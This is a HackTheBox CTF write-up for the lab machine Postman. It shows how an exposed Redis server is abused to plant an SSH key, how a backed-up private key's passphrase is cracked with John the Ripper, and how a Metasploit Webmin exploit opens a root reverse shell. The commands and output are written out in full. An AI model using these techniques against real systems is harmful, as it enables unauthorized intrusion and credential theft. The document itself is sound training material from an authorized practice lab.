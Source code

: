 ```yaml
---
title: HackTheBox Postman 
author: Marius Kimmina
date: 2020-03-14 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [Redis, Webminn]
published: true
---
```


# 0x0 Introduction
My first post on a HTB machine and the second Box I managed to own (the first one is yet to retire so there will also be writeup for that) featuring redis and webmin.  
![image](/assets/images/Postman_htb.png "Postman Logo")


# 0x1 Getting a foothold

As usual we start the box with an nmap scan
```
nmap -sV -sC -oA nmap/nmap 10.10.10.160
```
This revealed a webmin instance on version 1.1910 which has a privilege escalation vulnerability, but we need to be a user first to use that.  
Everything else revealed on this first scan did not seem all that interesting so I went for a second, larger, scan.  
```
nmap -p- -o nmap-all 10.10.10.10.160
```
Once that finished it revealed that redis was running on port 6379. Redis is a NoSQL Database that works with key-value-pairs, and there are multiple exploits known for it, so that makes a good target.  
To work with redis we need to install the redis-tools:
```
sudo apt get install redis-tools
```
I followed a simple exploit (found here: https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to replace redis's ssh key with our own, first we need to create an ssh-key of our own.  

```
ssh-keygen -t rsa
```

Then wrote the public-key fo a file 

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > pub.txt
```

Next I imported the key into redis 

```
cat pub.txt | redis-cli -h 10.10.10.160 -x set s-key
```

And then we place that key for the redis-user:

```
mindslave@kalibox:~/hackthebox/Postman/redis$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
```

Now we can ssh into the box as "redis" using our private ssh-key that we generated before.

```
redis@Postman:~$ 
```

# 0x2 Getting the user.txt

First I found out that user "Matt" existed on the system by doing a simple 

```
ls /home
```

Then after enumerating the box for a while (looking for all sorts of interesting files/services/stuff that could lead us further).  
I came across the /opt/backup directory and backups are of course always something to look for. In the backup directory was a file called id_rsa.bak, I copied the key to my host maschine and asked my friend john if he knew something about it. First we had to use the ssh2john.py to convert the ssh-key into a format that john can work with.

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ /usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-02-09 07:01) 0.2074g/s 2975Kp/s 2975Kc/s 2975KC/sa6_123..*7¡Vamos!
Session completed
```

Now we have the ssh-key and we know that the password for the key is "computer2008" but this is where this box got a little bit weird. When we tried to connect to the box as matt with the ssh-key and password we get a "connection closed" immediately, which had me confused for a couple of hours. Back on the redis-user, looking at the ssh-config (/etc/ssh/ssh_config and etc/ssh/sshd_config) I found the following line:

```
DenyUsers Matt
```

And honestly, if Matt is not allowed to connect via ssh, why does he even have an ssh-key? And a backup of that key even.  
But well it turned out that Matt is not very good with passwords and reused the key password as his local password, so we could just

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$
```

and then we had access to the user.txt in Matt's home directory


# 0x3 Getting the root.txt

To get the root user we had to go back to the webmin instance that we found earlier. Matt was also registered there and of course he used the same password "computer2008" for that as well. Knowing that we could use the privilege escalation exploit that I mentioned earlier.  
While I generally prefer to do things without Metasploit, sometimes it is just too convenient. So I entered Matts credentials and set the RHOSTS RPORT LHOST and LPORT Parameter and fired.

```
msf5 exploit(linux/http/webmin_packageup_rce) > exploit 

[*] Started reverse TCP handler on 10.10.14.87:9666 
[+] Session cookie: cf236dc0067d4ca9410f89e64b2bb62d
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.87:9666 -> 10.10.10.160:45232) at 2020-02-09 10:17:54 +0100
whoami
root
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

# 0x4 Closing words

This way my second box on HTB (probably the first one I get to post about tho, since it will retire first), and I learned quite a lot from it, especially the whole redis part that had an unnatural place for an .ssh folder to be. Thanks to the Author a great box for new people in the hacking field. 
